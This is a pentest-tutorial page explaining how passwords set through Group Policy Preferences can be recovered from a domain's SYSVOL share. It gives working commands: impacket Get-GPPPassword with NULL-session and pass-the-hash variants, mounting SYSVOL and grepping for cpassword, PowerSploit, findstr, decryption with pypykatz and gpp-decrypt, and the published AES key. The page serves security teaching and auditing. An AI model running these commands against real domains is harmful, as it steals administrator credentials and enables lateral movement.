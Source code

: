 # SYSVOL & Group Policy Preferences

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

The first problem is that the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines. by default, knowing the built-in Administrator's hash (RID 500) allows for powerful attackss. all Group Policies are stored in the Domain Controllers' SYSVOL share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted.



From UNIX-like systems, [this python script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) in the impacket examples can be used to remotely parse .xml files and loot for passwords

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'
​
# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
​
# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually (or with Metasploit's smb_enum_gpp module), however it requires mounting the SYSVOL share, which can't be done through a docker environment unless it's run with privileged rights. Tools like pypykatz and gpp-decrypt can then be used to decrypt the matches.

```
# create the target directory for the mount
sudo mkdir /tmp/sysvol
​
# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol
​
# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null
​
# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```

From Windows systems, the GPP password can only be recovered from an authenticated (i.e. domain user) context. ​powersploit's `get-gpppassword` searches a Domain Controller's SYSVOL share Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml and Drives.xml files and returns plaintext passwords

```
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the cpassword string in xml files and by then manually decrypting the matches

```
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```

